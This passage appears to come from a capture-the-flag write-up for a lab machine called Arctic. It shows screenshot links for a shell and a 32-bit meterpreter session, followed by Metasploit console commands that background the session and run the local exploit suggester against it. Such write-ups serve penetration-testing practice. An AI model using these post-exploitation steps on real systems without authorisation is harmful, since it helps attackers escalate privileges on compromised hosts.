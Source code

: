 ![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/shell.png)

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/meterpreter.png)

it running a 32bit meterpreter 

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/32Bit.png)

now we send the session to the background so that we can use `Suggester`  to search for exploits 

```sh
background
search suggester
use 0
show options
set SESSION 1
run
```

